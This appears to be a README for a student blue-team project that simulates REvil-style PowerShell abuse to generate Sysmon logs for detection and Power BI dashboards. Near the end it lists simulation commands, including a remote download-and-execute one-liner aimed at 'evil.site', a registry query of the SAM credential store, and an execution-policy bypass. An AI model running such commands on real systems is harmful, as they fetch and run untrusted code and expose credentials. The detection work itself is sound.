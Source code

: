 # Windows Threat Hunter
![PowerShell](https://img.shields.io/badge/script-powershell-blue)
![Sysmon](https://img.shields.io/badge/tool-sysmon-red)
![MITRE ATT&CK](https://img.shields.io/badge/mapping-mitre-orange)
![Power BI](https://img.shields.io/badge/visualisation-powerbi-yellow)

A mini threat detection and analysis project inspired by the 2021 **JBS ransomware attack**.  
This blue team simulation demonstrates how adversaries abuse PowerShell, perform credential access, and retrieve payloads — and how we can detect them with **Sysmon**, **PowerShell scripting**, and **Power BI dashboards**.

---

## Why I Made This

This project was created as part of my research into attack detection tools commonly used in the industry. My goal was to simulate attacker-like behaviour based on a **real-world ransomware case (REvil)**, extract logs with **custom scripting**, map detections to the **MITRE ATT&CK framework**, and demonstrate everything visually in **Power BI**.

---

## Real-World Case Study: The JBS Ransomware Attack

In May 2021, the world's largest meat supplier, **JBS**, was targeted by the REvil ransomware group. The attack disrupted meat production across North America and Australia, leading to an $11 million ransom payout. It involved:
- Use of credential access tools and remote payload delivery
- File encryption and operational shutdowns
- Abuse of PowerShell for lateral movement and data exfiltration

> 🔗 Sources: [Wired](https://www.wired.com/story/jbs-ransomware-attack-underscores-dire-threat), [Claroty](https://claroty.com/blog/jbs-attack-puts-food-and-beverage-cybersecurity-to-the-test), [InvestigateMidwest](https://investigatemidwest.org/2023/06/08/jbss-cybersecurity-was-unusually-poor-prior-to-2021-ransomware-attack-internal-homeland-security-records-show)

---

## MITRE ATT&CK Mapping

| PowerShell Command | Technique | MITRE ID | Tactic |
|--------------------|-----------|----------|--------|
| `Invoke-WebRequest` | Ingress Tool Transfer | T1105 | Command & Control |
| `New-Object Net.WebClient` | Command Execution | T1059 | Execution |
| `reg query HKLM\SAM` | OS Credential Dumping | T1003 | Credential Access |

---

## Tools Used

- **Sysmon** – Logs process creation, network, and file events  
- **PowerShell** – Scripting to parse and export logs  
- **Power BI** – Dashboard visualisation of IOC activity  
- **Visual Studio Code** – Script and site editing  
- **GitHub Pages** – Deployed as a public demo site

---

## Project Structure

windows-threat-hunter/

├── ioc-finder.ps1 # Script to extract relevant Sysmon events

├── sysmonconfig.xml # Monitoring configuration (SwiftOnSecurity)

├── ioc_events.csv # Exported event data (from script)

├── index.html # Website demo landing page

├── style.css # Simple site styling

├── screenshots/

│ └── powerbi.png # Dashboard screenshot

└── README.md

# Simulate payload download
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"

# Simulate credential access
reg query HKLM\SAM

# Simulate script execution (will fail but still log)
iex(New-Object Net.WebClient).DownloadString('http://evil.site/script.ps1')

# Extract logs with Script
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
.\ioc-finder.ps1
